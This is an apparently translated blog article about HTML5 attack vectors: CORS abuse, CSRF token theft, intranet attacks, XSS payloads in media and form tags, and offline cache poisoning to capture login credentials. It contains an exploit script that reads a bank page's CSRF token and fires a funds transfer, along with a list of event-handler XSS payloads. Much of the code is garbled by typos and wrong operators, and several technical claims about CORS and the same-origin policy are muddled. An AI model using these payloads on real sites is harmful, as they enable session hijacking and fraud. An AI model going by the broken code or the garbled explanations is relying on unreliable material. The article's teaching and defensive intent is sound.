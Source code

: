 HTML5 Attacks – Common/Uncommon Attack Vectors
----------------------------------------------

HTML5 has been already known for several years. It is one of the key technologies in the Internet. Most websites, transmitting video, slowly give up Adobe Flash technology and switches to HTML5. The fact is that HTML5 is still being developed, and yet it is already used by most websites, mobile applications and IoT. 

All the latest versions of browsers already offer full support for HTML5, and thus created all the time new improvements to the language itself. All these functions are designed in such a way as to facilitate the handling of multimedia and graphical content without having to use any third-party plug-ins or API. The purpose of this article is to introduce to the few attacks on HTML5 and demonstrate how a hacker can quickly take control of your browser.

CORS (Cross Origin Resource Sharing) Attacks
----------------------------------------------

HTML5 must meet the growing needs of developers who want to create high-quality site. At the same time HTML5 has to get rid of some restrictions which were introduced earlier by SOP (Same Origin Policy). Same Origin Policy allowed scripts that come from one place to communicate with each other and benefit from their common methods, but made it impossible to access scripts from different locations. 

Now, to meet all the demands of developers, HTML5 has to break all the restrictions. For example, now Ajax requests can come from different domains and be carried out in various domains. SOP had a limit, consisting in the fact that both the website and scripts on the executed had come from the same domain. Now, without the SOP, a malicious Web page can load any information from any domain using the credentials of the victim and sending this data between multiple domains.

What does it mean? So long as the Website, let's call it Website A, can exchange data with another website, Website B, Website B can read all the data from the site Website A. This was possible by creating an exploit, using HTTP tunnel and a simple tool called Shell of the Future. The tool is based on the simple principle that if a party has an XSS vulnerability and JavaScript code can be executed, than innocent user can by clicking on infected link perform so called Cross Origin Requests. If the tool is used in the correct manner, the attacker can view the sessions of its victims and direct requests to the server, pretending to be the victim. Shell of the Future is a subject for a different article and will not be discussed here.

The fact is that you can takeover a session of any user using XSS vulnerability. This is possible only thanks to the COR support of HTML5 and it allows some tunneled connections. 


But my site is secure I am using CSRF tokens …
----------------------------------------------

HTML5 allows to steal CSRF tokens. For example, if the token goes in the URL, or the GET request, you can safely steal CSRF tokens, and this is consistent with the definition of CORS. An attacker could freely use CSRF token and the user will not even notice. To carry out this attack, attribute "withCredentials" has to be set to true and Access-Control-Allow-Origin to '*'. Let's see how it can be used.

Suppose that your website has CSRF protection, and the token is sent GET request. Now the attacker sends a link to the user together with a valid CSRF token and a link to controlled site. The attacker can now be mediated by the Ajax request in the communication between a bank customer and the bank. Below exploit code that could be used (exp1.html):

    <script>
    function exploit()
    {
      var xmlhttp;
      if(window.XMLHttpRequest)
      {
        xmlhttp=new XMLHttpRequest();
      }
    else
    {
      xlmlhttp=new ActiveXObject(“Microsof.XMLHTTP”);
    }
    xmlhttp.open(“GET”,”http://localhost/myBank/transfer.hmlt”,false);
    xmlhttp.send();
    if(xmlhttp.status=200)
    {
      var str=xmlhttp.responseText;
      var n=str.search(“csrfToken”);
      var final=str.substring(n+18,n+28);
      var url = “http://loclhost/myBank/TransferFund.html?datum1%2F=06-06-2013&amp;Account=1234&amo;csrfToken=” + escape(final);
    xmlhttp.open(“GET”, url, true);
    xmlhttp.send();
    }
    
    </script>
    </head>
    <body onload=”exploit();”>
    </body>


Getting inside Intranet
-----------------------

Many companies have internal sites, which are used for employees. They are usually Intranet applications and are not available on the Web. Because it is a lot of them and they are used by employees in their daily work, they must work together. Unfortunately, most developers sets the header Access-Control-Allow-Origin: * and allows to carry out the CORS attack. It can be really well used by the attacker, who probably will use social engineering and compel employees to click on a suspicious link, and then in a very easy way to attack the internal enterprise applications. Here is an example of such an attack.

1. The internal corporate employee logs on to the intranet.
2. The server returns a response containing the Access-Control-Allow-Origin: * because it communicates well with other applications in the company.
3. The employee receives an e-mail that contains a link to the page with great graphics SVG. Each of these images contain hidden JavaScript code that will run when it is displayed. This is discussed in a separate article.
4. Code JavaScript XMLHttpRequest send silently in the background and waits for a response. This can be done because the appropriate headers are set to be (X-XSS-Protection: 1; Access-Control-Allow-Origin: *).
5. JavaScript analyzes the answers and sends back to the attacker's servers. Virus checking and other control measures have been omitted. We will show how to use this feature soon.
6. We are in the company and act as an employee, and no one will know what happened.

The new vectors of attack XSS in HTML5
-----------------------

Developers in every company will develop their own filters to block XSS attacks on websites. Most of these models on a few simple examples of OWASP. However, HTML5 introduced a tremendous amount of tags to enable support for audio and video. Below are some possible attack vectors that are used virtually every day.

(exp2.html)


    <video> <source onerror=”javascript:alert(1)”>
    <vide onerror=”javascript:alert(1)”><source>
    <audio onerror=”javascript:alert(1)”><source>
    <input autofocus onfocus=alert(1)>
    <select autofocus onfocus=alert(1)>
    <textarea autofocus onfocus=alert(1)>
    <keygen autofocus onfocus=alert(1)>
    <button form=test onformchange=alert(2)>X
    <form><button formaction=”javascript:alert(1)”>

Darknet Technique: Offline Web Application Cache Poisoning
----------------------------------------------------------

There is a certain functionality of most web browsers, called an offline cache processing. The functionality has been implemented by most browsers. The functionality is based on the fact that the application can process the contents of the page, even when you use it offline. The main problem of this feature is that an attack "cache poisoning" can be performed using this feature. If an attacker manages to replace at least one file of the site, it has full control over the user account. This can be done eg. using SVG file. You know what is the difference between HTML4 and HTML5? HTML5 essentially does not allow to cache all the files, but it allows you to cache specific files. Using this function, the attacker can steal login details belonging to any user. The following is a sample scenario of attack.

1. The user connects to an unsecured WiFi network at the mall and browse to a page, for example Facebook.
2. A hacker responds to this request by displaying the iframe Facebook login page, the user's browser automatically sends a request to the Facebook page. Login page to Facebook can be replaced by any application, including banking application.
3. Because the network is controlled by a hacker, the user will see a normal login page, but inside will be located additional JavaScript code. In addition, the page contains the appropriate tags, which require her to cache the user's system, so the page is already cached in the browser cache.
4. The sacrifice of a few hours, days, etc etc, it connects to the selected web page, in this case Facebook, but Facebook login page was buffered in a user's system. A page exactly substituted by hackers was buffered in a user's system.
5. The sacrifice is part of the link, and the browser loads a fake site from the cache.
6. The victim introduces credentials that are transported to the attacker. By the way, an attacker can mediate communication between Facebook and the innocent victim.

So through cache poisoning, the attacker can steal user's credentials. 


Summary
-------

Most of these tricks usually are not used or tested against, making it easier for Cybercriminals.

Please make sure you test your website for this problems.


References:

http://resources.infosecinstitute.com/demystifying-html-5-attacks/


http://silenceonthewire.pl/index.php/ataki-na-html5-wprowadzenie/



